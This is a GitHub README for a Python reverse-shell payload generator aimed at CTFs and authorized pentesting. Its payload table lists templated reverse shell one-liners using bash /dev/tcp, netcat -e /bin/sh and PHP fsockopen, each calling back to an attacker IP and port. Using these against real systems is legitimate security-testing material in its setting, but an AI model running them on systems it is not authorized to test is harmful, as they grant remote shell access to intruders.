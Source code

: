 # 🛠️ ShellForge — Payload Generator

> **Author:** [@Certifa](https://github.com/Certifa)
> 🐚 Tool: Reverse Shell Payload Generator
> 🧠 Inspired by Metasploit's style & CLI payload handling

---

![Shellforge demo](docs/shellforge.png)

## 📌 Description

**ShellForge** is a clean, simple Python CLI tool that generates reverse shell payloads for CTFs, labs, or pentesting environments.

✨ Features:

- Colorful Rich interface
- ASCII banner & stylized UX
- Auto-injected IP & PORT into payloads
- Works fully offline

---

## 🚀 Usage

```bash
python3 payloadgen.py <IP> <PORT>
```

### 🔍 Example

```bash
python3 payloadgen.py 10.10.14.5 4444
```

You will see a menu like:

```
1. Bash TCP
2. Python TCP
3. Netcat (traditional)
4. PHP
5. Exit
```

Select an option and the ready-to-use payload will be printed.

---

## 🎯 Payload Types

| Option | Language | Payload |
|--------|----------|---------|
| 1 | Bash | `bash -i >& /dev/tcp/IP/PORT 0>&1` |
| 2 | Python | `python3 -c 'import os,socket,...'` |
| 3 | Netcat | `nc IP PORT -e /bin/sh` |
| 4 | PHP | `php -r '$sock=fsockopen("IP",PORT);exec(...)'` |

IP and PORT are automatically injected from the CLI.

---

## 📦 Requirements

- `Python 3.7+`

### 🔧 Install dependencies

```bash
pip install -r requirements.txt
```

---

## 🖼️ Preview

```shell
   /\
  |==|   Payload Generator
  |  |   ------------------
  |  |   Author: @Certifa
 /____\
[======]
|  💥  |   [~] Ready to forge shells
'------'
```

---

## 🔐 Legal & Ethics

**Use ShellForge responsibly.**

This tool is for educational and authorized use only.

> **Disclaimer:** The author is not responsible for misuse or damage. Always obtain explicit permission before testing.

---

## 📄 License

This project is licensed under the [MIT License](docs/mit.txt)

---

## 🛠️ Planned Features

- [ ] Export payload to text file
- [ ] Add reverse PowerShell payload
- [ ] Listener helper (e.g. start nc listener)

## 📚 Credits

- [Rich](https://github.com/Textualize/rich)
- [PyFiglet](https://github.com/pwaller/pyfiglet)
- Inspired by classic red teaming tools like Metasploit

---

## 🔗 Links

- GitHub: [https://github.com/Certifa/shellforge](https://github.com/Certifa/shellforge)
